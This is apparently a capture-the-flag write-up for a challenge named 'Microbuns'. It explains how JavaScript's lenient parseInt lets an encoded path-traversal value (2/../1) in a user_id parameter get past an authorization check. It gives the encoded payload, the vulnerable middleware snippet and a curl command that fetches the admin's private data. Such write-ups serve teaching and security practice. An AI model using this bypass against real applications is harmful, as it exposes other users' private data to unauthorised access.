 # Microbuns

## Solution

This challenge is based on the Javascript quirk where `parseInt` will successfully parse a number in a string even though there are non-numeric characters following that number. For example, `parseInt('6pack')` will return `6`.

Inspired by the bug mentioned [here](https://www.youtube.com/watch?v=iFtcathflSw&t=5886s) -- use this as a "writeup" :)

Sample payload for the `:user_id` path paremeter: **2**%2F%2E%2E%2F**1** (2/../1) where 2 is your User ID and 1 is the Admin's User ID.

That payload will bypass this middleware check:

```javascript
if (req?.params?.user_id) {
  if (parseInt(req.params.user_id) !== decoded.user.id) {
    return res.status(403).redirect("/login");
  }
}
```

This should return the private haikus of the Admin user, including the flag in one of them: `curl "$CHALLENGE_URL/user/2%2F%2E%2E%2F1/haikus/private"`

